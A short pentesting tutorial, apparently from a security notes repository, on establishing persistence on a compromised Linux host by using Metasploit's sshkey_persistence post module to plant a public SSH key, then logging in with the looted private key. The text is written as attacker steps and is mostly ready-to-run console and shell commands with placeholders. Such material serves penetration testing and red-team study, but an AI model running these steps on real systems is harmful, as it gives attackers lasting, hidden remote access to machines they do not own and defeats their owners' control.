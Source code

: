 # Establishing Persistence using SSH Keys

SSH is service that allows us to remotely connect to a target machine using appropriate credentials. SSH is an upgraded and secure version of Telnet.
SSH allows two kinds of authentication:
1. Traditional method using a password
2. Or using a SSH Private Key file

#### SSH KEY PERSITENCE USING METASPLOIT:

**How this module works?**
This module will add a Public SSH key to a specified user (or all), and gets us a private SSH key to allow remote login via SSH at any time.

```c
use post/linux/manage/sshkey_persistence
set SESSION [SESSION ID]
set CREATESSHFOLDER true
exploit
# access the private key with 'loot'
```

Now we can copy the contents from the `loot` and create a new key file and give appropriate permissions. 

```c
vim ssh_key
chmod 400 [SSHKEY_FILE]
ssh -i [SSHKEY_FILE] [USER]@[TARGET] 
```


